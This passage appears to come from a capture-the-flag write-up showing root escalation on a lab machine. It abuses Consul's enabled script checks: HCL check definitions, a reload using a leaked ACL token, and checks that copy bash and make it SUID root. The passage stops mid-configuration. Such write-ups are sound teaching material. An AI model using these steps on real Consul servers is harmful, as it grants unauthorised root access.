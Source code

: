 #### Script Checks

Looking at the `enable_script_checks` option can lead to [this blog
post](https://www.hashicorp.com/blog/protecting-consul-from-rce-risk-in-specific-configurations)
about how Consul can be exploited by script checks. [This
page](https://www.consul.io/docs/discovery/checks) talks about how to
create checks and includes examples.

The "service definition file" goes into the "agent's configuration
directory", which I believe is `/etc/consul.d/config.d`.

I'll grab the example for a script check from the documents page above,
and modify it a bit



    check = {
      id = "0xdf"
      name = "0xdf owned this"
      args = ["/usr/bin/touch", "/tmp/0xdf-test"]
      interval = "10s"
      timeout = "1s"
    }



This script check will now touch `/tmp/0xdf-test` as root. I'll use
`vim` to write that as `config.d/0xdf.hcl`.

I'll reload `consul` to refresh the configuration:



    developer@ambassador:/etc/consul.d$ CONSUL_HTTP_TOKEN='bb03b43b-1d81-d62b-24b5-39540ee469b5' consul reload
    Configuration reload triggered



The results of the scripts are available using `journalctl`, which
requires root to access. Still, after a few seconds, I'll see
`/tmp/0xdf-test` exists:



    developer@ambassador:/etc/consul.d$ ls -l /tmp/0xdf-test
    -rw-r--r-- 1 root root 0 Sep 14 17:25 /tmp/0xdf-test



#### Shell

To get a shell, I'll update the check script file to include three
checks:



    checks = [
      {
        id = "0xdf-1"
        name = "copy bash"
        args = ["cp", "/bin/bash", "/tmp/0xdf"]
        interval = "60s"
      },
      {
        id = "0xdf-2"
        name = "make it root"
        args = ["/usr/bin/chown", "root:root", "/tmp/0xdf"]
        interval = "60s"
      },
      {
        id = "0xdf-3"
        name = "suid bash"
        args = ["/usr/bin/chmod", "4777", "/tmp/0xdf"]